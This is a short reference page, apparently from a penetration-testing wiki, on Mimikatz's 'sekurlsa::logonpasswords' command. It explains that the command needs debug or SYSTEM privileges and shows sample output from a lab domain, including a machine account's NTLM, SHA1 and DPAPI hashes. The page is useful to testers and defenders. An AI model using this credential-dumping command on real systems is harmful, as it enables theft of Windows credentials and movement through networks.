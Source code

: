 # logonpasswords

`sekurlsa::logonpasswords` lists all available provider credentials. (cf. [dumping LSASS secrets](https://www.thehacker.recipes/ad/movement/credentials/dumping/lsass)) This usually shows recently logged on user and computer credentials.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 712960 (00000000:000ae100)
Session           : Service from 0
User Name         : MediaAdmin$
Domain            : hacklab
Logon Server      : DC
Logon Time        : 9/26/2021 4:57:38 AM
SID               : S-1-5-21-2725560159-1428537199-2260736313-1427
        msv :
         [00000003] Primary
         * Username : MediaAdmin$
         * Domain   : hacklab
         * NTLM     : 35950fdc8d3d99b4136510414009662d
         * SHA1     : 185535108abf1fc0287dedbaff210b77989251c8
         * DPAPI    : 73006d59c6adcf27da6e097787a6d1f9
        tspkg :
        wdigest :
         * Username : MediaAdmin$
         * Domain   : hacklab
         * Password : (null)
        kerberos :
         * Username : MediaAdmin$
         * Domain   : HACKLAB.LOCAL
         * Password : (null)
        ssp :
        credman :
```
